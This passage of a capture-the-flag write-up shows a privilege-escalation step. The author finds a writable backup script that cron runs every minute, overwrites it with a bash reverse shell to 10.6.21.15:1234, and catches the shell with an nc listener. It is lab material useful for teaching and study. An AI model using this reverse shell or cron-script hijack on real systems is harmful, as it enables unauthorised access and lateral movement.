 # |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *	* * *	root    cd / &amp;&amp; run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / &amp;&amp; run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / &amp;&amp; run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / &amp;&amp; run-parts --report /etc/cron.monthly )
*  *    * * *   fred    ./backup</pre>
</li>
<li>Found it!&nbsp;<strong>fred</strong> is calling his&nbsp;<strong>backup</strong> script every minute via <strong>/etc/crontab</strong>&nbsp;</li>
<li>Ok, so we can&nbsp;<strong>write</strong>, but cannot&nbsp;<strong>read/execute</strong> ... maybe we can overwrite it's contents with our own script?</li>
<li>Let's write up a reverse shell using&nbsp;<strong>bash</strong> (find examples here: <a title="GTFOBins - Bash Reverse Shell" href="https://gtfobins.github.io/gtfobins/bash/" target="_blank" rel="noopener">GTFOBins</a>)
<ul>
<li>
<pre>#!/bin/bash

bash -c 'exec bash -i &amp;&gt;/dev/tcp/10.6.21.15/1234 &lt;&amp;1'</pre>
</li>
<li>Saved as&nbsp;<strong>rev.sh</strong> (under&nbsp;<strong>/home/barney/rev.sh</strong>)</li>
</ul>
</li>
<li>Let's start a&nbsp;<strong>nc</strong> listener on port&nbsp;<strong>1234</strong> to prepare to receive our reverse shell! (from attack machine)
<ul>
<li>
<pre>$ nc -vlnp 1234                                                                                                                                                      &lt;aws:bowtie_agency&gt;
Listening on 0.0.0.0 1234</pre>
</li>
</ul>
</li>
<li>Ready, let's try to overwrite the&nbsp;<strong>backup</strong> script with our rev bash shell
<ul>
<li>
<pre>barney@b3dr0ck:~$ cat rev.sh &gt; /home/fred/backup</pre>
</li>
</ul>
</li>
<li>Looks like that worked!
<ul>
<li>Cron is running every minute, let's wait for another 1-2 min and see what we get on&nbsp;<strong>nc</strong> listener</li>
</ul>
</li>
<li>
<pre>$ nc -vlnp 1234                                                                                                                                                      &lt;aws:bowtie_agency&gt;
Listening on 0.0.0.0 1234
Connection received on 10.10.74.126 41036
bash: cannot set terminal process group (1410): Inappropriate ioctl for device
bash: no job control in this shell
fred@b3dr0ck:~$ 